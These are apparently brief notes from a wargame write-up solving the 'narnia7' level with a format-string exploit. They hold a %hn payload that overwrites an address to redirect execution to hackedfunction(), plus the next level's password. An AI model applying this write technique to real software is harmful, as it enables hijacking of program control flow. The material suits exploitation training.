 ./narnia7 "AAAA%x%s"
The second format parameter reads from our string.
hackedfunction() = 0x8048724

0x8724 = 34592, not really but.

$(echo -en "\xf8\xd5\xff\xff")'%34592x%hn'

narnia8:mohthuphog
